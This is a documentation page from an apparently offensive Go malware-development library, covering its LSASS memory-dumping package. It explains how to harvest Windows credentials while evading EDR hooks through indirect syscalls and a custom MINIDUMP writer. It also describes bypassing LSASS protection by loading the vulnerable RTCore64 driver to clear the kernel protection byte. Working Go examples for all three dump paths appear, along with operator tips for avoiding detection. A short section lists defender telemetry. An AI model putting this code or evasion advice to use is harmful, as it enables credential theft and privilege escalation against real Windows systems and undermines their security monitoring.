

# LSASS minidump (live)

[← credentials index](README.md) · [docs/index](../../index.md)

## TL;DR

You want LSASS's in-memory secrets (cleartext passwords, NTLM
hashes, Kerberos tickets, DPAPI master keys). LSASS is a
process; you dump its memory and parse the credential
structures out. This package handles the dump side; the parse
side lives in [`credentials/sekurlsa`](sekurlsa.md).

The "heavily-hooked" path is `MiniDumpWriteDump` from `dbghelp.dll`
— every EDR watches it. This package skips it entirely.

| You're targeting… | Use | Constraint |
|---|---|---|
| LSASS without PPL (default on workstations) | [`Dump`](#func-dumpcaller-wsyscallcaller-byte-error) | Needs `SeDebugPrivilege` (admin) |
| LSASS with `RunAsPPL=1` (servers, hardened) | [`DumpPPL`](#func-dumpppl) | Needs admin + BYOVD driver (rtcore64 default) for kernel R/W to flip protection level |

What this DOES achieve:

- Custom in-process MINIDUMP emitter — no `dbghelp.dll`, no
  `MiniDumpWriteDump` call. EDR `DbgHelp.dll!*` hooks see
  nothing.
- `NtGetNextProcess` for lsass discovery — no `OpenProcess`
  / `EnumProcesses` (both monitored).
- VAD walk via `NtQueryVirtualMemory` — output identical to
  `MiniDumpWriteDump`'s `MemoryListStream` so the dump parses
  cleanly in WinDbg / mimikatz / sekurlsa.
- 6-stream MINIDUMP layout (SystemInfo / ModuleList / MemoryList /
  ThreadList / Memory64List / Misc) — the canonical subset
  sekurlsa needs.

What this does NOT achieve:

- **Doesn't bypass kernel callbacks** — `PsSetCreateProcessNotify`
  family still fires when YOU spawn (don't matter here, but
  callbacks watching cross-process opens DO see your
  `NtGetNextProcess`+memory reads). Pair with
  [`evasion/kernel-callback-removal`](../evasion/kernel-callback-removal.md)
  for that surface.
- **Doesn't parse the dump** — that's `credentials/sekurlsa`.
  The dump byte buffer is the hand-off interface.
- **No SAM / NTDS** — separate techniques. See
  [`credentials/samdump`](samdump.md) for SAM,
  [`credentials/goldenticket.md`](goldenticket.md) for AD
  Kerberos forging.

## Primer — vocabulary

Six terms recur on this page:

> **LSASS (Local Security Authority Subsystem Service)** —
> Windows process responsible for authentication, session
> management, and credential caching. Holds NTLM hashes,
> Kerberos tickets, DPAPI master keys, and (when the user
> chose to type a password) cleartext credentials in memory.
>
> **MINIDUMP** — Microsoft's compact crash-dump format. A
> binary file with named "streams" describing the dumped
> process's modules, memory regions, threads, and metadata.
> Tools like WinDbg and mimikatz read this format to extract
> credentials.
>
> **PPL (Protected Process Light)** — Windows protection level
> applied to LSASS when `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\RunAsPPL=1`.
> Even SYSTEM cannot `OpenProcess(PROCESS_VM_READ)` against
> a PPL process from user mode. Default-on for Windows 11
> 22H2+; common on hardened servers.
>
> **VAD (Virtual Address Descriptors)** — kernel structure
> describing every committed memory region of a process.
> Walking the VAD via `NtQueryVirtualMemory` lets the dumper
> enumerate exactly the same regions `MiniDumpWriteDump`
> would walk, without the API hook.
>
> **`SeDebugPrivilege`** — Windows privilege required to
> open arbitrary processes for reading. Granted to admins by
> default but disabled in the token; must be enabled before
> use (`process/session.EnableSeDebugPrivilege`).
>
> **BYOVD (Bring Your Own Vulnerable Driver)** — load a
> legitimately-signed-but-vulnerable driver (RTCore64 from
> MSI Afterburner) that exposes an IOCTL for arbitrary kernel
> R/W. The PPL flip path uses this to clear the EPROCESS
> protection bits.

## Primer

LSASS holds the cleartext Kerberos password material, NTLM hashes,
DPAPI master keys, TGT cache, CloudAP PRT, and TSPkg/RDP plaintext.
Every credential-dumping tool eventually wants its memory.

The classic path is `MiniDumpWriteDump` from `dbghelp.dll`; modern
EDRs hook every interesting call inside that function. The
`lsassdump` package skips the hook surface entirely:

1. Locate lsass via `NtGetNextProcess` (no `OpenProcess` /
   `CreateToolhelp32Snapshot` / `EnumProcesses`).
2. Walk the target's VAD via `NtQueryVirtualMemory` to enumerate
   committed regions.
3. Walk the loaded modules via `NtQueryInformationProcess(ProcessLdr…)`
   parsing the PEB's `Ldr.InMemoryOrderModuleList`.
4. Read each region's bytes with `NtReadVirtualMemory`.
5. Emit a 6-stream MINIDUMP (Header, SystemInfo, ModuleList,
   Memory64List, MemoryInfoList, ThreadList stub) directly to an
   `io.Writer`.

Every Nt* call accepts an optional `*wsyscall.Caller` (nil =
WinAPI fallback) so the operator can route through direct or
indirect syscalls and bypass user-mode hooks.

PPL stands separate: when `RunAsPPL=1` (Win 11 default) the
kernel rejects `PROCESS_VM_READ` regardless of token privileges.
The package ships a kernel-level bypass via
`kernel/driver/rtcore64`: zero `EPROCESS.Protection` byte
(temporarily), open lsass, restore the byte. The Discover*
helpers parse `ntoskrnl.exe` PE prologues to derive the EPROCESS
field offsets without hand-curated tables.

## How It Works



Implementation details:

- `OpenLSASS` walks the system's process list with
  `NtGetNextProcess` — no public-API call ever names lsass by
  string. The PID is resolved by reading the EPROCESS or via
  `NtQueryInformationProcess(ProcessBasicInformation)`.
- The Memory64List stream is the bulk of the dump — every
  committed region's `BaseAddress + RegionSize + RawData`. The
  package writes the directory entry first, then streams payload
  bytes through the writer to keep RAM usage flat regardless of
  lsass size (~80–600 MB on modern boxes).
- `Stats` reports per-pass counters (regions, modules, bytes
  read, bytes skipped) so the operator can spot incomplete dumps
  before parsing.
- `DiscoverProtectionOffset` cross-validates two prologue
  patterns (`PsIsProtectedProcess` + `PsIsProtectedProcessLight`)
  and returns the EPROCESS byte offset only when both agree —
  falsey matches at runtime would otherwise corrupt EPROCESS.
- `Unprotect` keeps the original Protection value in `PPLToken`
  so `Reprotect` can restore it. Aborting between the two leaves
  lsass unprotected; defer the call.

## API → godoc

[`pkg.go.dev/github.com/oioio-space/maldev/credentials/lsassdump`](https://pkg.go.dev/github.com/oioio-space/maldev/credentials/lsassdump) is the authoritative
reference for every exported symbol. This page teaches the
*concepts*; the godoc is the *specification*.

## Examples

### Simple — dump unprotected lsass to file

```go
import (
    "fmt"

    "github.com/oioio-space/maldev/credentials/lsassdump"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

caller := wsyscall.New(wsyscall.MethodIndirect, nil)
stats, err := lsassdump.DumpToFile(`C:\Users\Public\lsass.dmp`, caller)
if err != nil {
    panic(err)
}
fmt.Printf("dumped %d regions, %d MB\n", stats.Regions, stats.BytesRead>>20)
```

### Composed — dump in-memory + parse without disk

Pipe the MINIDUMP through a `bytes.Buffer` straight into
[`sekurlsa.Parse`](sekurlsa.md):

```go
import (
    "bytes"
    "github.com/oioio-space/maldev/credentials/lsassdump"
    "github.com/oioio-space/maldev/credentials/sekurlsa"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

caller := wsyscall.New(wsyscall.MethodIndirect, nil)
h, err := lsassdump.OpenLSASS(caller)
if err != nil {
    panic(err)
}
defer lsassdump.CloseLSASS(h)

var buf bytes.Buffer
if _, err := lsassdump.Dump(h, &buf, caller); err != nil {
    panic(err)
}
res, err := sekurlsa.Parse(bytes.NewReader(buf.Bytes()), int64(buf.Len()))
if err != nil {
    panic(err)
}
defer res.Wipe()
```

### Advanced — PPL bypass via RTCore64

When `RunAsPPL=1`, drop the protection byte through a kernel
ReadWriter, dump, restore.

```go
import (
    "github.com/oioio-space/maldev/credentials/lsassdump"
    "github.com/oioio-space/maldev/kernel/driver/rtcore64"
    wsyscall "github.com/oioio-space/maldev/win/syscall"
)

drv, err := rtcore64.Load(rtcore64.LoadOptions{})
if err != nil {
    panic(err)
}
defer drv.Unload()

caller := wsyscall.New(wsyscall.MethodIndirect, nil)
pid, _ := lsassdump.LsassPID(caller)

ep, err := lsassdump.FindLsassEProcess(drv, pid, nil, caller)
if err != nil {
    panic(err)
}

protOff, _ := lsassdump.DiscoverProtectionOffset("", nil)
tab := lsassdump.PPLOffsetTable{Protection: protOff}

tok, err := lsassdump.Unprotect(drv, ep, tab)
if err != nil {
    panic(err)
}
defer lsassdump.Reprotect(drv, tok) //nolint:errcheck

if _, err := lsassdump.DumpToFile(`C:\Users\Public\ppl-lsass.dmp`, caller); err != nil {
    panic(err)
}
```

See [`ExampleDumpToFile`](../../../credentials/lsassdump/lsassdump_example_test.go).

## OPSEC & Detection

| Artefact | Where defenders look |
|---|---|
| `OpenProcess(lsass, PROCESS_VM_READ)` | Sysmon Event 10 (process access); the canonical "credential dumping" signal — fires regardless of which API surfaced the open |
| Sustained `NtReadVirtualMemory` against lsass | EDR memory-access telemetry |
| Driver load (RTCore64) | Sysmon Event 6 (driver loaded), Microsoft vulnerable-driver blocklist |
| Write of a `.dmp` file | EDR file-write heuristics flagging dump files in user-writable paths |
| Calls to `MiniDumpWriteDump` | DbgHelp hook (we don't use it — but the absence is itself a tell) |
| EPROCESS.Protection byte transition | ETW Threat-Intelligence provider (Win11 22H2+) |

**D3FEND counters:**

- [D3-PSA](https://d3fend.mitre.org/technique/d3f:ProcessSpawnAnalysis/) — flags driver-load + lsass-open combos.
- [D3-SICA](https://d3fend.mitre.org/technique/d3f:SystemConfigurationDatabaseAnalysis/) — kernel-driver load auditing.
- [D3-FCA](https://d3fend.mitre.org/technique/d3f:FileContentAnalysis/) — MINIDUMP magic on disk.

**Hardening for the operator:**

- Stream the dump through a `bytes.Buffer` + `sekurlsa.Parse`
  in-process — no `.dmp` file ever lands.
- Route Nt* through indirect syscalls (`wsyscall.MethodIndirect`).
- Open lsass with the minimum access mask the dump needs
  (`PROCESS_VM_READ | PROCESS_QUERY_LIMITED_INFORMATION`).
- Defer `Reprotect` — never leave lsass unprotected on a crash
  path.

## MITRE ATT&CK

| T-ID | Name | Sub-coverage | D3FEND counter |
|---|---|---|---|
| [T1003.001](https://attack.mitre.org/techniques/T1003/001/) | OS Credential Dumping: LSASS Memory | full — region walk + MINIDUMP build | D3-PSA, D3-SICA |
| [T1068](https://attack.mitre.org/techniques/T1068/) | Exploitation for Privilege Escalation | partial — PPL bypass via signed-but-vulnerable driver | D3-SICA |

## Limitations

- **Windows-only build/dump pipeline.** Pure Go on-disk PE
  parsing (`Discover*`) runs cross-platform — analysts can
  resolve EPROCESS offsets from a captured `ntoskrnl.exe` on
  Linux/CI.
- **No WoW64 dumps.** Modern lsass is x64; legacy WoW64 not
  supported.
- **Driver visibility.** RTCore64 is a Microsoft-blocklisted
  vulnerable driver as of recent vulnerable-driver blocklist
  updates; on hardened systems the driver load itself is
  blocked. Plan for vBO (very few alternative drivers) or
  alternative PPL bypasses.
- **No thread context capture.** ThreadList is a stub — full
  per-thread context is not emitted. sekurlsa doesn't need it;
  some legacy tooling (windbg `!analyze`) does.
- **Protection-byte race.** Between `Unprotect` and `OpenLSASS`
  there is a microsecond window where lsass is unprotected.
  Defenders with continuous EPROCESS monitoring (rare) can spot
  the transition.
- **`LsassPID` requires elevation.** The walk uses
  `NtGetNextProcess` with `PROCESS_QUERY_LIMITED_INFORMATION`,
  which the kernel silently denies for lsass.exe (a PPL) when
  the caller has no elevation/`SeDebugPrivilege`. The loop runs
  to `STATUS_NO_MORE_ENTRIES` without ever seeing lsass and
  surfaces `ErrLSASSNotFound` — the same error you would see if
  lsass were genuinely absent. From a non-elevated context use
  `NtQuerySystemInformation(SystemProcessInformation)` directly
  (different syscall, returns names without opening handles)
  if PID-only enumeration is needed; the rest of the dump path
  can't proceed under lowuser anyway.

## See also

- [`credentials/sekurlsa`](sekurlsa.md) — parses the produced
  MINIDUMP.
- [`credentials/goldenticket`](goldenticket.md) — downstream
  consumer of an extracted krbtgt hash.
- [`kernel/driver/rtcore64`](../kernel/byovd-rtcore64.md) —
  PPL-bypass driver primitive.
- [`evasion/stealthopen`](../evasion/stealthopen.md) —
  path-based file-hook bypass for `ntoskrnl.exe` reads.
- [`win/syscall`](../syscalls/) — direct/indirect syscall
  caller used throughout this package.
- [Operator path](../../by-role/operator.md#credential-harvest).
- [Detection eng path](../../by-role/detection-eng.md#credential-access)
  — LSASS dump telemetry.
